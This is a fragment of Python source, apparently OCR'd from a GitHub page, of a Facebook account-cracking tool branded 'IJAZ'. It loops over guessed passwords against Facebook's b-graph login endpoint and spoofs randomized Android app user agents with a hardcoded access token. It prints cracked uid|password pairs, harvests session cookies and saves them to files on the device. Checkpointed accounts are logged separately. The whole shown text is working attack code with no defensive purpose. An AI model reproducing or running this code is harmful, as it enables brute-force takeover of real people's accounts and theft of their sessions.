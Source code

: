 
                        url = 'https://b-graph.facebook.com/auth/login'
                        twf = 'Login approval'+'s are on. '+'Expect an SMS'+' shortly with '+'a code to use'+' for log in'
                        po = requests.post(url,data=data,headers=headers).json()
                        if 'session_key' in po:
                                try:
                                        uid = po['uid']
                                except:
                                        uid = ids
                                if str(uid) in oks:
                                        break
                                else:
                                        print('\r\r\033[1;32m [IJAZ-OK] '+str(uid)+' | '+pas+'\033[1;97m')
                                        coki = ";".join(i["name"]+"="+i["value"] for i in po["session_cookies"])
                                        print("Cookie: "+coki)
                                        open('/sdcard/IJAZ-COOKIE.txt','a').write(coki+'\n')
                                        open('/sdcard/IJAZ-rnd-OK.txt','a').write(str(uid)+'|'+pas+'\n')
                                        oks.append(str(uid))
                                        break
                        elif 'www.facebook.com' in po['error']['message']:
                                try:
                                        uid = po['error']['error_data']['uid']
                                except:
                                        uid = ids
                                if uid in oks:pass
                                else:
                                        print('\r\r\x1b[38;5;205m [IJAZ-CP] '+str(uid)+' | '+pas+'\033[1;97m')
                                        open('/sdcard/IJAZ-rnd-CP.txt','a').write(str(uid)+'|'+pas+'\n')
                                        cps.append(str(ids))
                                        break
                        else:continue
                loop+=1
        except Exception as e:
                pass
#method5
def IJAZ5(ids,passlist):
        global loop
        global oks
        sys.stdout.write('\r\r\033[1;37m [IJAZ-M5] %s|\033[1;37mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
        try:
                for pas in passlist:
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        fbav = f'{random.randint(111,999)}.0.0.{random.randint(11,99)}.{random.randint(111,999)}'
                        fbbv = str(random.randint(111111111,999999999))
                        android_version = device['android_version']
                        model = device['model']
                        build = device['build']
                        fblc = device['fblc']
                        fbcr = sim_id
                        fbmf = device['fbmf']
                        fbbd = device['fbbd']
                        fbdv = device['fbdv']
                        fbsv = device['fbsv']
                        fbca = device['fbca']
                        fbdm = device['fbdm']
                        fbfw = '1'
                        fbrv = '0'
                        fban = 'FB4A'
                        fbpn = 'com.facebook.katana'
                        ua = 'Davik/2.1.0 (Linux; U; Android '+android_version+'.0.1; '+model+' Build/'+build+') [FBAN/'+fban+';FBAV/'+fbav+';FBBV/'+fbbv+';FBDM/{density=3.0,width=1080,height=2246};FBLC/'+fblc+';FBRV/'+str(random.randint(000000000,999999999))+';FBCR/'+fbcr+';FBMF/'+fbmf+';FBBD/'+fbbd+';FBPN/'+fbpn+';FBDV/'+fbdv+';FBSV/'+fbsv+';FBOP/19;FBCA/'+fbca+';]'